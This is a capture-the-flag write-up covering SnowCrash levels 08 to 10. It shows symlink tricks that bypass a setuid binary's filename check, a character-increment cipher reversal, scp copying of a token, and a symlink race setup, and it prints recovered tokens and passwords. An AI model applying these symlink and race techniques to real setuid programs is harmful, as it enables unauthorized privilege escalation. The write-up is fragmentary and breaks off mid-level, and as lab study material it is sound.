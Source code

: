 ```bash
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                         = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)     = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

We only have to do a symbolic link to bypass this restriction

```bash
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/link && ./level08 /tmp/link
quif5eloekouj29ke0vouxean
```
## Level 09

At this level, we have a program that takes an argument and increments by one all characters we write by incrementation.
It uses the Rolling Cipher
For example: abc = ace

```bash
scp -P 4242 level09@192.168.56.101:~/token ~/Desktop
```

We make a script to apply this rule of incrementation

```bash
su flag09 -> f3iji1ju5yuevaus41q1afiuq
getflag
```
## Level 10

At this level, we have an executable that will send a file to a remote host.

```bash
ls -l
        -rwsr-s---+ 1 flag10 level10 8617 Mar  5  2016 level10
        -rw-------  1 flag10 flag10    26 Mar  5  2016 token
```
We can create a symlink to try to read the content in the token file (symlink race)

```bash
ln -s /home/user/level10/token /tmp/flag
```
Now let's try to send my file to the server

```bash
./level10 /tmp/flag 192.168.56.101
```
You don't have access to /tmp/flag
```bash
cat /tmp/flag
    cat: /tmp/flag: Permission denied
```
